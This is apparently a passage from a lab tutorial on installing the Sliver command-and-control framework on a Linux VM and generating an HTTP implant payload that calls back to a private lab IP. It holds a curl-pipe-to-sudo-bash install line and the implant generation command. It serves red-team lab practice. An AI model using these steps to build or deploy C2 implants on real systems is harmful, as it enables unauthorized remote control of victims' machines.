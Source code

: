 Install it by runnig this command from your Linux SSH Session:
```
curl https://sliver.sh/install|sudo bash
```

And let's add a new Directory to store the bad payload:
```
mkdir -p /opt/sliver
```

Finally we make sure it's alive, by running:
```
sliver-server
```
We should see something like this:
![alt text](https://raw.githubusercontent.com/raulpz/raulpz.github.io/main/assets/images/sliver-server.png)

type "exit" to close our sliver session.

#### We will generate a Command and Conrol (C2) pyload with sliver server

First, obtain your Linux VM IP address.

Then let's elevate to super user with:
```
sudo su
```

Now change directory to the one we created before:
```
cd /opt/sliver
```

And from there, launch sliver-server:
```
sliver-server
```

And we will ask our bad boy to generate a C2 payload for us, replace the IP with the IP address of your own Linux VM:
```
generate --http 172.16.162.129 --save /opt/sliver

##Allow this to run for 2 minutes or so.
```
